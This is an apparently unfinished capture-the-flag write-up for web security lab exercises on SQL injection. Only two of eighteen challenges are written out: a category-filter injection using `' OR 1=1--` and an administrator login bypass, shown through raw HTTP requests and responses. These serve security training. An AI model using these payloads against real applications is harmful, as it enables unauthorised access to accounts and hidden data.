

## Introduction

Placeholder.

## Challenge 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
> [!QUOTE]+ Problem Prompt
> This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> 
> To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 
{icon="circle-question"}

Spinning the lab up, here's what we're greeted with:



This lab is fairly straightforward - all we have to do is actively browse the website, clicking on the categories listed under "Refine Your Search" and we'll see a call to this filtering URL pop up in our browser or Burp proxy history: `https://0a020007047c11fc81e9079c00ae0090.web-security-academy.net/filter?category=Gifts`

From the prompt, the call the application would be making should something like `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`. In order to solve the lab, we need to cause it to show things that are unreleased, i.e. cause a query that looks something like `SELECT * FROM products WHERE category = 'Gifts' AND released = 0`. Since we don't have control of the `released` parameter - only the `category` - we can't flip that to a 0 to see _just_ the unreleased. Let's re-word the query so that it looks a little different so that we can make sense of _why_ our bypass will work: `SELECT everything FROM products WHERE category = <a filter> AND <a Boolean switch on a certain filter>`.

Through that lens, we just need to make our query hold a Boolean switch where the value equals ALL of the things, not just the released products. In SQL, that's easily done with the famous `OR 1=1` statement - or any other truth value for that matter. Lastly, we need to remove the rest of the original query - we can ad add a comment to the end of the payload to make sure nothing beyond that will register as part of the query. Our final payload URL looks like the following (note the URL-encoded space characters `+` in the category): `https://0a020007047c11fc81e9079c00ae0090.web-security-academy.net/filter?category=Gifts'+OR+1=1--`

To help visualize what's going on and why this bypasses the filtering, here's what happens to the query when we use that URL: `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--AND released=0`

Notice that our injection gets placed right before the `AND` part of that statement, letting us comment out the rest of the query.

## Challenge 2: SQL injection vulnerability allowing login bypass

> [!QUOTE]+ Problem Prompt
> This lab contains a SQL injection vulnerability in the login function.
> 
> To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
{icon="circle-question"}

Okay, so this one has us doing a login bypass. The theory is largely the same as Challenge 1 - we need to pass in a piece of data that causes the application to authenticate us, even though we don't have valid credentials. Let's take a look at what happens when we pop a single quote into one of the login fields:

```
-=-=-=-=-[REQUEST]-=-=-=-=-

POST /login HTTP/2
Host: 0a6a00d40363086380564eb500da0010.web-security-academy.net
Cookie: session=Dl6K1MyY6x4YGcRTac7K6fUD7chZLyt8
Content-Length: 66
Content-Type: application/x-www-form-urlencoded

csrf=fgDeZBmVpwQpHfMaw1fsn2ZZY52f4vUu&username=test'&password=test

-=-=-=-=-[RESPONSE]-=-=-=-=-

HTTP/2 500 Internal Server Error
Content-Length: 21

Internal Server Error
```

Okay, so it doesn't give us any SQL error pages or something like that, just a `500` error. But check out what happens when we append a _second_ single quote:

```
-=-=-=-=-[REQUEST]-=-=-=-=-

POST /login HTTP/2
Host: 0a6a00d40363086380564eb500da0010.web-security-academy.net
Cookie: session=Dl6K1MyY6x4YGcRTac7K6fUD7chZLyt8
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

csrf=fgDeZBmVpwQpHfMaw1fsn2ZZY52f4vUu&username=test''&password=test

-=-=-=-=-[RESPONSE]-=-=-=-=-

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3331

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
```

That lets us confirm that there's most likely some kind of SQL concatenation happening on the backend (ignoring the obvious meta-gaming of knowing it's a SQL Injection lab). If we think about the query, it might be something like this on the sign in request:

```sql
"SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'"
```

From here, it's pretty easy to see we could just tack on the `OR 1=1--` and be on our way. Let's inject that into the `username` parameter and use our comment to knock down the rest of the request:

```
-=-=-=-=-[REQUEST]-=-=-=-=-

POST /login HTTP/2
Host: 0a6a00d40363086380564eb500da0010.web-security-academy.net
Cookie: session=Dl6K1MyY6x4YGcRTac7K6fUD7chZLyt8
Content-Length: 79
Content-Type: application/x-www-form-urlencoded

csrf=fgDeZBmVpwQpHfMaw1fsn2ZZY52f4vUu&username=administrator'-- -&password=test

-=-=-=-=-[RESPONSE]-=-=-=-=-

HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=ogGs2pydLA9k8G1QbUAGzd7yhYtpNR21; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Here's what the query looks like (probably) once we send our payload in:

```sql
SELECT * FROM users WHERE username = 'administrator'-- -' AND password = test
```


As an alternative way to show this same concept, it's possible to also perform the injection in the `password` parameter. Note that because of where the `password` parameter likely sits in the SQL query, we have to add an additional `OR 1=1` to make sure a record is returned:

```
-=-=-=-=-[REQUEST]-=-=-=-=-

POST /login HTTP/2
Host: 0a6a00d40363086380564eb500da0010.web-security-academy.net
Cookie: session=mDZxXTLrREvSNuRv1Kk4khfCJO7QJg3J
Content-Length: 86
Content-Type: application/x-www-form-urlencoded

csrf=zsXVZYFHAgPRyC9mj0gMO0gkTm63Sd0q&username=administrator&password=test' OR 1=1-- -

-=-=-=-=-[RESPONSE]-=-=-=-=-

HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=FS4C1K9W9U6Ziyj8uMGGIK6VYSEDE84E; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

And once again, here's how this SQL query likely ends up after our payload is injected:

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'test' OR 1=1-- -
```

Once all is said and done, we need to use the session cookie that's returned in the response to log in. To do that, we can simply replace our local `session` cookie in our browser with the new value from the injected login response. Once you do that, you can navigate the application as the administrator!

## Challenge 3: SQL injection attack, querying the database type and version on Oracle

Placeholder.

## Challenge 4: SQL injection attack, querying the database type and version on MySQL and Microsoft

Placeholder.

## Challenge 5: SQL injection attack, listing the database contents on non-Oracle databases

Placeholder.

## Challenge 6: SQL injection attack, listing the database contents on Oracle

Placeholder.

## Challenge 7: SQL injection UNION attack, determining the number of columns returned by the query

Placeholder.

## Challenge 8: SQL injection UNION attack, finding a column containing text

Placeholder.

## Challenge 9: SQL injection UNION attack, retrieving data from other tables

Placeholder.

## Challenge 10: SQL injection UNION attack, retrieving multiple values in a single column

Placeholder.

## Challenge 11: Blind SQL injection with conditional responses

Placeholder.

## Challenge 12: Blind SQL injection with conditional errors

Placeholder.

## Challenge 13: Visible error-based SQL injection

Placeholder.

## Challenge 14: Blind SQL injection with time delays

Placeholder.

## Challenge 15: Blind SQL injection with time delays and information retrieval

Placeholder.

## Challenge 16: Blind SQL injection with out-of-band interaction

Placeholder.

## Challenge 17: Blind SQL injection with out-of-band data exfiltration

Placeholder.

## Challenge 18: SQL injection with filter bypass via XML encoding

Placeholder.